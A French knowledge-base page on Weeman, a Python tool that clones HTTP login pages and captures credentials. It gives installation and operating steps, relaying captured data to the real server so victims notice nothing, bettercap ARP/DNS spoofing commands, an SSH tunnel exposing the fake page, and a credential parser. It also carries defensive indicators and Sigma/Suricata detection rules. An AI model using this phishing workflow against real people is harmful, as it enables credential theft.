


# Weeman — Cloneur de pages web pour le credential harvesting (HTTP)

> [!info] **En 1 phrase**
> Weeman est un petit outil en Python qui clone une page de connexion HTTP, la sert sur un port local et capture les identifiants saisis par la victime en toute simplicité.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom complet | Weeman — HTTP server for phishing |
| Description | Cloneur de pages web ultra-léger : télécharge une page de login, la sert en HTTP local et intercepte les formulaires POST pour capturer les identifiants |
| Catégorie | Social Engineering & Phishing |
| Sous-catégorie | Phishing, Credential Harvesting, Clone de sites |
| Fonction principale | Servir une page de connexion clonée et capturer les identifiants saisis |
| Type d'outil | CLI (prompt interactif `weeman >`) |
| Licence | GPLv3 |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | Python 2.x (Python ≤ 2.7 d'origine) + BeautifulSoup 4 |
| Développeur / organisation | Hypsurus (dépôt original supprimé ; forks maintenus : evait-security/weeman, samyoyo/weeman…) |
| Projet officiel | weeman (projet historique) |
| Dépôt officiel | https://github.com/samyoyo/weeman (miroir) |
| Documentation officielle | https://github.com/samyoyo/weeman |
| Date de création | Septembre 2015 (annonce sur Full-Disclosure, v1.1) |
| État du projet | obsolète / non maintenu (dernière version 1.7.1) |
| Dernière version connue | 1.7.1 (« codename : end ») |
| Systèmes compatibles | Linux, macOS, Windows (nécessite Python 2.7 pour la version d'origine) |

> [!note] Pour vérifier / compléter
> Le dépôt original `github.com/Hypsurus/weeman` a été supprimé ; la version 1.7.1 est la dernière publiée et est republiée dans plusieurs forks (evait-security/weeman, samyoyo/weeman, iammtw/Weeman). Aucun paquet officiel Kali n'a pu être confirmé (`apt install weeman` n'existe pas dans les dépôts Kali).

---

## Concept

Weeman, développé par **Hypsurus** (outil éducatif, annoncé sur la liste Full-Disclosure en 2015), est un cloneur de pages web très léger : il télécharge la page cible, la sert sur un port local (par défaut 8080) et intercepte les formulaires **POST** pour capturer les identifiants. Il fonctionne exclusivement en **HTTP** (pas de HTTPS), ce qui le destine avant tout à l'apprentissage du phishing et à des démonstrations en environnement contrôlé. Son interface est en ligne de commande avec un prompt interactif (`weeman >`) où l'on configure la cible puis lance le serveur (`run`).

Simple, minimaliste et ne nécessitant que Python et BeautifulSoup/requests, il est idéal pour comprendre le fonctionnement d'un credential harvester en quelques minutes, mais il ne gère ni SSL, ni tunneling intégré, ni tracking avancé. Dans un pentest, il est utile en complément d'un reverse proxy (mitmproxy, [[Outil - Evilginx2]]) pour reproduire rapidement un formulaire de login interne en HTTP, ou couplé à un spoofing DNS (ettercap/dsniff) comme le suggère son README.



---

## Concepts fondamentaux

| Concept | Explication |
|---|---|
| Clone de page HTTP | Téléchargement du HTML de la page cible (via `set url`) puis re-service local |
| Harvester de formulaires | Interception du POST du formulaire cloné : les champs (user/password) sont journalisés |
| `action_url` | URL où le harvester relaie les données : pointer vers le vrai serveur pour que la victime pense avoir envoyé le formulaire |
| HTTP seulement | Pas de TLS : trafic en clair, alerte navigateur « non sécurisé » |
| Port d'écoute | Port local (défaut 8080) où Weeman sert la page clonée |
| User-Agent | En-tête UA utilisé au clonage pour imiter un navigateur |
| Relais / proxy | Weeman peut être combiné à un tunneling externe (SSH, Serveo) ou à un spoofing DNS pour acheminer les victimes |
| Python 2 | La version d'origine exige Python ≤ 2.7 ; certains forks la portent en Python 3 |

---

## Installation

### Debian / Ubuntu / Kali Linux / macOS / Windows

```bash
# Le dépôt original Hypsurus/weeman a été supprimé : utiliser un fork miroir
git clone https://github.com/samyoyo/weeman.git
cd weeman
# Dépendances (version d'origine : Python 2.7)
python2 -m pip install requests beautifulsoup4
# Lancer l'outil
python2 weeman.py
```

### Installation via pip (variante)

```bash
# Un paquet PyPI « weeman » (Termux) existe, sans rapport avec le clone original
pip install weeman
```

### Compilation / lancement direct

```bash
chmod +x weeman.py
./weeman.py
```

> [!warning] Prérequis & problèmes potentiels
> - La version d'origine exige **Python ≤ 2.7** et **BeautifulSoup 4** ; Python 2 n'est plus fourni par les distributions récentes (utiliser `pyenv` pour installer 2.7.18, cf. doc Kali « Using EoL Python Versions »).
> - Aucun paquet `apt install weeman` dans Kali/BlackArch n'a pu être confirmé — privilégier le clone Git.
> - Pour écouter sur le port 80, lancer avec **root** (`sudo`).

---

## Configuration

La configuration se fait entièrement dans le **prompt interactif** de Weeman (`weeman >`). Il n'y a pas de fichier de configuration externe.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `set url <url>` | URL de la page à cloner | URL HTTP | Page servie localement | `set url http://192.168.1.10/login.php` |
| `set port <port>` | Port d'écoute local | Entier (défaut 8080) | Adresse de phishing | `set port 8080` |
| `set action_url <url>` | URL du POST (relais) | URL HTTP | Les données sont-elles relayées au vrai serveur ? | `set action_url http://192.168.1.10/login.php` |
| `set user_agent <ua>` | User-Agent utilisé au clonage | Chaîne UA | Fidélité du téléchargement | `set user_agent Mozilla/5.0` |
| `run` | Démarre le serveur de phishing | commande | Page servie + capture active | `run` |
| `show` | Affiche la configuration courante | commande | Vérifier les paramètres | `show` |
| `help` | Liste les commandes disponibles | commande | Aide en mémoire | `help` |
| `exit` / `quit` | Quitte l'outil | commande | Arrêt du prompt | `exit` |

---

## Architecture interne

Weeman est un script Python mono-processus simple :

- **`weeman.py`** : point d'entrée — prompt interactif (`weeman >`), parsing des commandes `set` / `run` / `show` / `help`.
- **Clonage** : à `set url`, Weeman télécharge la page avec `requests` (ou urllib) en utilisant le `user_agent` configuré, puis parse le HTML avec **BeautifulSoup** pour localiser le formulaire.
- **Serveur HTTP** : à `run`, un serveur HTTP local (module Python `BaseHTTPServer`/`http.server`) sert la page clonée sur le port configuré.
- **Interception POST** : quand la victime soumet le formulaire, Weeman journalise les champs dans la console ; si `action_url` est défini, il relaie les données vers ce serveur (le vrai site) pour laisser la victime croire à un envoi normal.



---

## Commandes

### Commandes principales

```bash
# Lancer Weeman (prompt interactif)
python2 weeman.py
```

Dans le prompt `weeman >` :

| Commande | Effet |
|---|---|
| `set url <http://cible.com>` | Définit l'URL de la page à cloner |
| `set port <8080>` | Définit le port d'écoute local |
| `set action_url <url>` | URL où sont envoyées les données (POST / relais) |
| `set user_agent <ua>` | User-Agent utilisé pour la requête de clonage |
| `run` | Lance le serveur de phishing |
| `show` | Affiche les paramètres courants |
| `help` | Affiche l'aide (liste des commandes) |
| `exit` / `quit` | Quitte l'outil |

### Commandes avancées

```bash
# Lancer Weeman en arrière-plan et journaliser (non interactif via pipe)
printf 'set url http://192.168.1.10/login.php\nset port 8080\nrun\n' | python2 weeman.py > weeman_harvest.log 2>&1
```

---

## Options et flags

Weeman n'a pas d'options CLI : toute la configuration se fait dans le prompt. Les « options » ci-dessous sont les variables `set` disponibles.

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `set url` | Cible à cloner | `set url http://192.168.1.10/login.php` | Basic |
| `set port` | Port d'écoute | `set port 8080` | Basic |
| `run` | Démarrer le serveur | `run` | Basic |
| `set user_agent` | UA de clonage | `set user_agent Mozilla/5.0 (X11; Linux x86_64)` | Intermediate |
| `set action_url` | Relais des données capturées | `set action_url http://192.168.1.10/login.php` | Intermediate |
| `show` / `help` | État de la config / aide | `show` | Intermediate |

> [!tip] Options les plus utiles au quotidien
> `set url` + `set port` + `run` suffisent pour un harvester fonctionnel. `set action_url` est le réglage qui rend l'attaque crédible (relais vers le vrai serveur).

---

## Exemples pratiques

### Beginner

```bash
python2 weeman.py
weeman > set url http://192.168.1.10/login.php
weeman > set port 8080
weeman > run
# Ouvrir http://localhost:8080 depuis un second terminal : la page clonée s'affiche
# Saisir des identifiants fictifs : ils apparaissent dans la console weeman
```

### Intermediate

```bash
python2 weeman.py
weeman > set url http://192.168.1.10/portail/login.html
weeman > set action_url http://192.168.1.10/portail/login.php
weeman > set port 80
weeman > run
# Le formulaire clone est servi sur le port 80 ; les données sont relayées
# vers le vrai script login.php (la victime ne remarque rien)
```

### Advanced

```bash
# Harvester combiné à un spoofing DNS (dsniff/ettercap) — approche README
# 1. Lancer Weeman sur le port 80
python2 weeman.py
weeman > set url http://www.example.com/login.php
weeman > set port 80
weeman > run
# 2. Dans un autre terminal : spoofing ARP + DNS pour rediriger example.com vers votre IP
sudo bettercap -eval "net.probe on; arp.spoof on; set dns.spoof.domains example.com; dns.spoof on"
```

### Expert

```bash
# Exposer le harvester à l'extérieur via un tunnel SSH (sans modifier Weeman)
# Terminal 1 : Weeman sur 8080
python2 weeman.py
weeman > set url http://192.168.1.10/login.php
weeman > set port 8080
weeman > run
# Terminal 2 : tunnel SSH inverse vers un VPS
ssh -R 8080:localhost:8080 utilisateur@serveur-public.example.com
# La victime rejoint http://serveur-public.example.com:8080
```

---

## Workflow complet (scénario pas à pas)

1. **Lancer Weeman.**
   ```bash
   python2 weeman.py
   ```
2. **Configurer la cible.**
   ```text
   weeman > set url http://192.168.1.10/login.php
   weeman > set port 8080
   ```
3. **Lancer le serveur.**
   ```text
   weeman > run
   ```
4. **Partager le lien** — envoyer `http://10.10.20.15:8080` à la victime (ou faire pointer le DNS local vers cette IP).
5. **Lire les identifiants** — toute soumission de formulaire apparaît dans la console de Weeman.
6. **Vérifier le relais** — si `action_url` pointe vers le vrai serveur, la victime est redirigée et sa session continue normalement.
7. **Nettoyer** — `Ctrl+C`, puis quitter (`exit`) ; supprimer les logs si l'exécution a été redirigée vers un fichier.

---

## Scénarios avancés

### Scénario 1 : capture de formulaire POST ciblé avec relais

```text
python2 weeman.py
weeman > set url http://192.168.1.10/portail/login.html
weeman > set action_url http://192.168.1.10/portail/login.php
weeman > run
# L'outil clone le formulaire ; les données saisies sont capturées dans la
# console puis relayées au serveur original (la victime aboutit sur le vrai site)
```

### Scénario 2 : démonstration de harvestionnage local (lab)

```text
weeman > set url http://testphp.vulnweb.com/login.php
weeman > set port 9000
weeman > run
# Ouvrir http://localhost:9000 depuis un second terminal pour valider
# le fonctionnement du harvester sans réseau externe.
```

### Scénario 3 : combinaison avec un tunneling (SSH/Serveo)

S'exposer sans modifier la config de Weeman, pour un test depuis l'extérieur.

```bash
# Dans un second terminal : exposer le port local 8080
ssh -R 8080:localhost:8080 utilisateur@serveur-public.example.com
# La victime rejoint http://serveur-public.example.com:8080
```

### Scénario 4 : harvester HTTP redirigé vers une page neutre après capture

Rejouer le scénario complet d'un vol de session sans alerter la victime.

```text
weeman > set url http://192.168.1.10/login.php
weeman > set action_url http://192.168.1.10/login.php   # relais vers le vrai serveur
weeman > set port 8080
weeman > run
# La victime est relayée vers le vrai site : la session continue pendant
# que les identifiants sont capturés dans la console.
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance | Identifier un formulaire de login HTTP interne à cloner (portail, équipement réseau) |
| Vulnérabilité (humaine) | Démonstration pédagogique du phishing en environnement contrôlé |
| Exploitation | Credential harvesting (T1566.002) sur des formulaires HTTP simples |
| Post-exploitation | Réutilisation des identifiants capturés (portail interne, VPN) |
| Sensibilisation | Exercice d'éveil : montrer qu'un clic + une saisie = compromission |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Initial Access | Phishing: Spearphishing Link | T1566.002 | Lien vers la page clonée partagé à la victime | Proxy web, filtrage URL | Filtrage URL, MFA, awareness |
| Execution | User Execution: Malicious Link | T1204.001 | Victime clique et saisit ses identifiants | Proxy web, EDR navigateur | Filtrage web, awareness |
| Initial Access | Drive-by Compromise | T1189 | Page clonée HTTP compromet le navigateur | Monitoring HTTP anormal | Mise à jour navigateur, HTTPS |
| Resource Development | Stage Capabilities: Link Target | T1608.005 | Infrastructure de phishing hébergeant le clone | Détection de pages de login falsifiées | Blocage des domaines d'hameçonnage |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Weeman est un harvester HTTP simple : association pertinente avec T1566.002 et T1204.001 uniquement.

---

## Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Page servie en HTTP (pas de cadenas) | Le clone est en clair : vérifier l'URL avant toute saisie |
| URL avec IP brute ou port non standard | Contrôler l'URL et le port (8080, 9000…) |
| Page clonée avec assets manquants | Comparer visuellement avec le vrai site |
| Formulaire demandant des identifiants hors contexte | Sensibiliser sur les demandes d'identifiants non sollicitées |
| Trafic HTTP non chiffré observé sur le réseau | Le harvester capture tout en clair : inspection réseau |
| Raccourcissement d'URL ou lien non vérifié reçu par mail/chat | Former au contrôle des URLs avant clic, proxy filtrant |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Exemple Sigma — requête HTTP vers une IP brute sur un port non standard (harvester)
title: HTTP Request to Raw IP on Non-Standard Port
id: 33333333-4444-5555-6666-777777777777
status: experimental
logsource:
    category: web_connection
    product: proxy
detection:
    selection:
        request|startswith: 'http://'
        destination_host: null   # IP brute (pas de FQDN)
        destination_port|not:
            - 80
            - 443
    condition: selection
falsepositives:
    - Internal legacy applications
level: low
```

```bash
# Exemple Suricata — POST HTTP avec champ "password" vers IP brute
alert http any any -> any any (msg:"Potential Weeman harvester POST"; flow:to_server,established; content:"POST"; http_method; content:"password"; http_client_body; classtype:web-application-attack; sid:9500301; rev:1;)
```

---

## Automatisation

```bash
# Bash — lancer Weeman non interactif via pipe de commandes
printf 'set url http://192.168.1.10/login.php\nset port 8080\nrun\n' | python2 weeman.py > harvest.log 2>&1
```

```python
# Python — simuler une soumission de formulaire pour tester le harvester en lab
import requests
r = requests.post('http://10.10.20.15:8080/login.php',
                  data={'username': 'jdoe', 'password': 'Tartempion2024!'})
print(r.status_code, r.url)
# Les credentials apparaissent ensuite dans la console/le log Weeman
```

```bash
# Automatiser le spoofing DNS d'accompagnement (bettercap)
sudo bettercap -eval "set dns.spoof.domains login.example.com; dns.spoof on"
```

---

## Output et parsing

La sortie principale de Weeman est la **console** : chaque POST capturé est affiché dans le prompt avec les champs du formulaire. Si l'exécution est redirigée vers un fichier, on peut la parser.

```bash
# Capturer la sortie dans un fichier puis l'inspecter
printf 'set url http://192.168.1.10/login.php\nset port 8080\nrun\n' | python2 weeman.py > harvest.log 2>&1
# Extraire les credentials capturés
grep -iE "user|pass|login" harvest.log
```

```python
# Python — parsing des champs capturés (adapté au format de sortie réel)
import re
with open('harvest.log', encoding='utf-8', errors='ignore') as f:
    data = f.read()
for user, pw in re.findall(r'(?:user(?:name)?|login)[^:]*:\s*(\S+)[^\n]*pass(?:word)?[^:]*:\s*(\S+)', data, re.I):
    print(f"{user}:{pw}")
```

> [!note] À vérifier
> Weeman n'a pas de format de sortie structuré (pas de JSON/XML) : le parsing dépend du format exact de la console, qui varie selon le fork et la version.

---

## Intégrations

```text
DNS Spoof (ettercap/bettercap) → Weeman (page clonée HTTP) → Credentials capturés → Rejeu (portail interne) → SIEM
```

- [[Tools| Outils]] global
- [[Outil - SocialFish]] — harvester équivalent plus récent (avec tunneling)
- [[Outil - SET]] — framework complet pour aller plus loin (payloads, mass mailer)
- [[Outil - Evilginx2]] · [[Outil - Modlishka]] — reverse proxies 2FA (HTTP→HTTPS)
- [[Outil - Responder]] — capture de hashes NTLM en complément
- [[Outil - mitmproxy]] — proxy d'interception pour étendre le scénario
- [[Outil - Nmap]] — repérer le serveur harvester exposé / valider le port
- [[07 - Wireless, MITM & Social Engineering| Wireless, MITM & Social Engineering]]

---

## Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - SocialFish]] | Simple, tunneling Ngrok intégré | Pages statiques uniquement, maintenance intermittente | Démo rapide |
| [[Outil - SET]] | Framework complet, payloads, mass mailer | Menu interactif, payloads signés | Exploitation / campagne |
| [[Outil - Evilginx2]] | Reverse proxy, bypass 2FA | Complexe à configurer | Red team 2FA |
| [[Outil - Modlishka]] | MITM massif HTTPS | Maintenance réduite | Campagnes larges |
| [[Outil - CredSniper]] | 2FA phishing + Ngrok | Moins maintenu | Démo |
| [[Outil - GoPhish]] | Campagnes mesurables | Pas de clonage dynamique | Sensibilisation |

> **Quand utiliser SocialFish plutôt que Weeman ?** Presque toujours en pratique : SocialFish est maintenu, gère le clonage dynamique et le tunneling HTTPS. Weeman reste pertinent pour la **pédagogie pure** (50 lignes de concept, aucun overhead) et les formulaires HTTP internes très simples.

---

## Performance

- **Ressources** : minimales — un script Python + un serveur HTTP mono-processus ; CPU/RAM quasi nuls.
- **Connexions** : le serveur HTTP de base gère les connexions séquentiellement ; plusieurs victimes simultanées peuvent ralentir la réponse.
- **Clonage** : le téléchargement de la page dépend du réseau de l'attaquant (1-5 s pour une page simple).
- **Latence de relais** : si `action_url` pointe vers le vrai serveur, la victime subit une double requête (harvester → vrai serveur) : perceptible sur les réseaux lents.
- **Limites** : pas de parallélisation, pas de TLS, pas de support des sites JavaScript lourds.

> [!note] À vérifier
> Aucune benchmark officielle ; ordres de grandeur issus des usages en lab sur des pages HTTP simples.

---

## Troubleshooting

### Common problems

#### Problème : « SyntaxError » au lancement (Python 3)

- **Cause** : la version d'origine exige Python ≤ 2.7.
- **Solution** : installer Python 2.7 (pyenv) et lancer `python2 weeman.py` ; ou utiliser un fork porté en Python 3.
- **Vérification** : `python2 --version` doit afficher une version 2.7.x.

#### Problème : « No module named bs4 »

- **Cause** : BeautifulSoup 4 non installé.
- **Solution** : `python2 -m pip install beautifulsoup4 requests`.
- **Vérification** : `python2 -c "import bs4; print(bs4.__version__)"`.

#### Problème : impossible d'écouter sur le port 80

- **Cause** : ports < 1024 réservés à root.
- **Solution** : lancer avec `sudo` ou utiliser un port élevé (`set port 8080`).
- **Vérification** : `sudo ss -ltnp | grep :80`.

#### Problème : la page clonée ne s'affiche pas correctement

- **Cause** : le site cible charge du JS/CSS par chemins absolus, non réécrits par Weeman.
- **Solution** : viser une page statique simple (portail HTTP, login.php basique).
- **Vérification** : ouvrir la page dans un navigateur et inspecter la console (F12).

#### Problème : les données ne sont pas relayées (action_url)

- **Cause** : `action_url` mal défini ou serveur cible inaccessible.
- **Solution** : vérifier l'URL avec `show`, tester l'accessibilité de la cible (`curl -I`).
- **Vérification** : soumettre le formulaire et observer les logs du vrai serveur.

---

## Sécurité de l'outil

- **HTTP en clair** : tout le trafic (page clonée + credentials) circule sans chiffrement — visible par un observateur réseau.
- **Données capturées** : les identifiants sont affichés en clair dans la console et stockés dans les logs si redirigés — nettoyer après usage.
- **Root pour le port 80** : nécessaire si l'on veut un port privilégié ; éviter de lancer en root inutilement.
- **Outils d'accompagnement** : le spoofing DNS (bettercap/ettercap) génère du trafic très visible et juridiquement sensible — lab autorisé uniquement.
- **Responsabilité légale** : Weeman est un outil d'attaque pédagogique ; ne l'utiliser que sur des cibles autorisées (VulnWeb, réseaux de test).

---

## Limitations

- **HTTP seulement** : impossible de cloner directement un site HTTPS sans dégrader l'URL (le navigateur affiche « non sécurisé »).
- **Python 2** : la version d'origine est incompatible avec Python 3 ; projet non maintenu depuis la 1.7.1.
- **Clonage incomplet** : pages riches (JS, CSS, redirections) mal rendues ; pas de réécriture avancée.
- **Pas de TLS ni de tunneling intégré** : pas d'URL HTTPS publique sans outil externe (SSH, Serveo).
- **Pas de tracking** : aucune statistique de clic/ouverture, pas de gestion multi-victimes.
- **Dépôt original supprimé** : dépendre de forks communautaires pour le code.

---

## Cheatsheet

```bash
# Installation (fork miroir, Python 2)
git clone https://github.com/samyoyo/weeman.git
cd weeman
python2 -m pip install requests beautifulsoup4

# Lancer
python2 weeman.py

# Session harvester typique
weeman > set url http://192.168.1.10/login.php
weeman > set port 8080
weeman > set action_url http://192.168.1.10/login.php
weeman > set user_agent Mozilla/5.0 (X11; Linux x86_64)
weeman > run
# Vérifier la page clonée : http://10.10.20.15:8080
# Arrêter : Ctrl+C puis "exit"
```

---

## Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Cloner une page de connexion HTTP et capturer les identifiants saisis |
| **Quand l'utiliser ?** | Pédagogie, démos en lab, formulaires HTTP internes simples |
| **Commande principale** | `python2 weeman.py` puis `set url <url>` + `set port 8080` + `run` |
| **Alternative principale** | [[Outil - SocialFish]] · [[Outil - SET]] · [[Outil - Evilginx2]] |
| **Concepts importants** | Clone HTTP, harvester de formulaires, `action_url` (relais), prompt interactif |
| **Liens associés** | [[Outil - SocialFish]] · [[Outil - SET]] · [[Outil - Evilginx2]] |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Page de login servie en HTTP | **HTTPS obligatoire** (HSTS), analyse du certificat, redirection HTTP→HTTPS |
| URL avec IP brute ou port non standard | **Proxy filtrant** : contrôler URL et port avant toute requête |
| Formulaire d'identifiants hors contexte | **Sensibilisation** : ne jamais saisir ses credentials sur une page non sollicitée |
| Trafic HTTP en clair vers un port inhabituel | **EDR / inspection réseau** : détection des harvester flows |
| Lien raccourci/non vérifié reçu par mail/chat | **Filtrage d'URL**, formation au survol des liens avant clic |
| Page clonée avec rendu cassé | Contrôle visuel : comparer avec le vrai site (favicon, logo, URL) |

---

## Tips & Pièges

> [!tip] **Tips**
> - Utilisez `set action_url` pour que le harvester **relaie les données au vrai serveur** : la victime croit avoir envoyé le formulaire normalement.
> - Testez d'abord avec une page locale (`192.168.1.10`) pour valider la capture avant de viser un site public (ex : `testphp.vulnweb.com`).
> - C'est un excellent outil pédagogique pour expliquer le fonctionnement d'un credential harvester sans overhead.
> - Le prompt accepte `help` : la liste des commandes disponibles est affichée en mémoire.
> - Redirigez la sortie vers un fichier (`> harvest.log`) pour garder une trace exploitable de la démo.

> [!warning] **Pièges**
> - Weeman ne gère **que le HTTP** : un site en HTTPS ne peut pas être cloné directement sans dégrader l'URL.
> - Les navigateurs modernes affichent « non sécurisé » sur les pages HTTP : la victime avertie se méfiera.
> - Le clonage de pages riches (JS, CSS, redirections) est incomplet : certaines pages ne s'affichent pas correctement.
> - Pas de SSL ni de tunneling intégré : impossible de générer une URL HTTPS publique sans outil externe.
> - Le dépôt original est supprimé : installez depuis un **fork miroir vérifié**, pas depuis un script copié-collé.

---

## References

### Official

- Dépôt miroir (fork maintenu) : https://github.com/samyoyo/weeman
- Fork alternatif : https://github.com/evait-security/weeman
- Dépôt d'origine (supprimé, via archive) : https://github.com/Hypsurus/weeman

### Security references

- MITRE ATT&CK T1566 — Phishing : https://attack.mitre.org/techniques/T1566/
- MITRE ATT&CK T1204 — User Execution : https://attack.mitre.org/techniques/T1204/
- MITRE ATT&CK T1189 — Drive-by Compromise : https://attack.mitre.org/techniques/T1189/

### Community

- Annonce Full-Disclosure Weeman 1.1 (2015) : https://lists.openwall.net/full-disclosure/2015/09/16/9
- HackersOnline / write-ups Weeman : https://hackercoolmagazine.com/how-to-phish-with-weeman-http-server/
- Kali Docs — Python 2 EoL (pour exécuter l'outil) : https://www.kali.org/docs/general-use/using-eol-python-versions/

---

**Liens :** [[Tools| Outils]] · [[Outil - SocialFish|SocialFish]] · [[Outil - SET|SET]] · [[Outil - Evilginx2|Evilginx2]] · [[Outil - Modlishka|Modlishka]] · [[Outil - Responder|Responder]] · [[Outil - mitmproxy|mitmproxy]]
